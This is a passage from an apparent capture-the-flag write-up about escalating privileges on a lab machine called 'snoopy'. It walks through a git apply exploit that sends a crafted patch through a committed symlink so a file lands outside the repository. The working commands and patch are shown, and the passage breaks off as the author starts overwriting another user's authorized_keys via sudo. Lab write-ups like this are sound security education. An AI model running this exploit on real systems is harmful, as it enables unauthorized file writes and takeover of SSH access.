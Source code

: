     cbrown@snoopy:~$ mkdir /dev/shm/poc
    cbrown@snoopy:~$ cd /dev/shm/poc
    cbrown@snoopy:/dev/shm/poc$ git init
    Initialized empty Git repository in /dev/shm/poc/.git/



To test, I'm going to try to create a file in a directory I own (without
using `sudo`) to make troubleshooting easier. I'll create
`/home/cbrown/0xdf`. First I need to create a symlink that points to
target directory and add it to the repo:



    cbrown@snoopy:/dev/shm/poc$ ln -s /home/cbrown/ symlink
    cbrown@snoopy:/dev/shm/poc$ git add symlink
    cbrown@snoopy:/dev/shm/poc$ git commit -m "add symlink"
    [main (root-commit) 6eba49c] add symlink
     1 file changed, 1 insertion(+)
     create mode 120000 symlink



I'll create the `patch` file, using the data from the test, modifying it
slightly:



    diff --git a/symlink b/renamed-symlink
    similarity index 100%
    rename from symlink
    rename to renamed-symlink
    --
    diff --git /dev/null b/renamed-symlink/0xdf
    new file mode 100644
    index 0000000..039727e
    --- /dev/null
    +++ b/renamed-symlink/0xdf
    @@ -0,0 +1,1 @@
    +busted



The only change is from `create-me` to `0xdf` in two places.
`git apply patch` will run it, and the new file exists:



    cbrown@snoopy:/dev/shm/poc$ git apply patch
    cbrown@snoopy:/dev/shm/poc$ cat ~/0xdf 
    busted



#### Overwrite authorized_keys

With `sudo`, I can do this exploit as sbrown. The first thing I'll try
is overwriting their `authorized_keys` file. I'll start a brand new
repo, this time adding a symlink pointing to sbrown's `.ssh` folder:

